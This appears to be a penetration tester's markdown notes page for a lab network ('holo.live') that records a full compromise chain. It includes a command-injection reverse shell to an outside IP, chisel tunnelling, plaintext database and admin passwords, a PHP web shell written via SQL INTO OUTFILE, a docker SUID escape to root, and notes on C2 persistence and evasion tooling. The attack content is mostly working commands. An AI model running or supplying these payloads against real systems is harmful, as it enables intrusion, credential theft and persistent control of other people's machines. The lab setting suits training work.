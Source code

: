 # Intel

## L-SRV01
IP: 10.200.107.33
OS: Linux
Hostname:
Domain: 
VHost: www.holo.live holo.live admin.holo.live dev.holo.live
Domain SID:
Machine Purpose: Web Server Wordpress
Services:
Service Languages: PHP




## Objectives
What do have in the solutions inventory to meet large network objective?

## Solution Inventory Map
Section to solve 
 


## Data 

#### Credentials

#### Intel

#### Local Inventory



### Todo

```
# quick and dirty MD5 hashes
echo -n 'text to be encrypted' | openssl md5

# Detirmine if a port is open or closed in bash
(: </dev/tcp/127.0.0.1/80) &>/dev/null && echo "OPEN" || echo "CLOSED"

netsh interface portproxy add v4tov4 listenport=<LPORT> listenaddress=0.0.0.0 connectport=<RPORT> connectaddress=<RHOST>
ncat -lvkp 12345 -c "ncat --ssl 192.168.0.1 443"
```

### Done

```bash
# login in to 
http://admin.holo.live/index.php
# admin:DBManagerLogin!
http://admin.holo.live/dashboard.php?cmd=bash+-c+'exec+bash+-i+%26>/dev/tcp/10.50.103.91/443+<%261'

# Setup proxychains and chisel
./chisel server -p 8888 --reverse
# curl chisel run client 
curl http://10.50.103.12/chisel-l -o chisel-l
./chisel client 10.50.103.91:8888 R:socks

proxychains mysql -h 192.168.100.1 -u admin -p
# !123SecureAdminDashboard321!
use DashboardDB;
# required create RCE on docker host
# if it does not exist

select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/nvmcmd.php';

proxychains curl "http://192.168.100.1:8080/nvmcmd.php?cmd=bash+-c+'exec+bash+-i+%26>/dev/tcp/10.50.103.91/445+<%261'"

sudo install -m =xs $(which docker) .
./docker run -v /:/mnt --rm -it ubuntu:18.04 chroot /mnt sh

```

reset for admin: 
```
b69a9e454439e1316427e518adcd887c38e8d0bbaebbdaf4831daf99431f698d93a3142e87eaca7ad4b315d18be7b0019d02
```

reset for gurag: 
```
09f7ab735e40f816e5913df5e157a0b271d1fd8c3665986bc782485322f06ee1fd2b5c5420594171050047280da9fcdeb80e
```

Set in the url to the `user_token=`  on requesting gurag password. 

https://www.youtube.com/watch?v=PqnnKMU3XMk 3:48 fin

https://www.youtube.com/watch?v=SHfzaQWithc MORE CAVALRY IS HERE, just as annoying as me! FULL Overwatch YEARS AGO https://www.youtube.com/watch?v=RIYd6Xdn88U; play on repeat - confirmed. Woohoo https://www.youtube.com/watch?v=RLxcn-rgDS8
My brain after I have finished this thing so I can move on - https://www.youtube.com/watch?v=lLPAUHdyjRI and make the best songs in the world https://www.youtube.com/watch?v=_lK4cX5xGiQ


Encrypted Sliver not to disk! Like Bishop Fox do: no mtls, or wireguard
 - https + proxy
 - Persistence:
	 - Persist a stage 1, either
		 - pull stager 2 over the network again
		 - encrypt the stage 2 and then write it to disk so that when the stage 1 runs  it read the cipher text from disk and load back into memory'
	- Just Re-exploit, no Persistence 

https://blog.zsec.uk/hellojackhunter-exploring-winsxs/
`c:\Windows\WinSxS` for the Koth madness of multiversioning bins, dlls
```
# Map out binaries
GCI -Path C:\Windows\WinSxS -Recurse -Filter *.exe | Select -First 20 | Select Name, FullName, @{l='FileVersion';e={[System.Version]($_.VersionInfo.FileVersion)}} | Group Name | ForEach-Object { $_.Group | Sort-Object -Property FileVersion -Descending | Select-Object -First 1 }
```

https://github.com/xct/winpspy
https://github.com/xct/xc
https://github.com/icyguider/Nimcrypt2 

Drop and exfil
https://github.com/DCScoder/LINTri/blob/main/LINTri.sh
https://github.com/DCScoder/WINTri/blob/main/WINTri.ps1


https://github.com/ChrisPritchard/ctf-writeups/blob/master/GO-SCRIPTING.md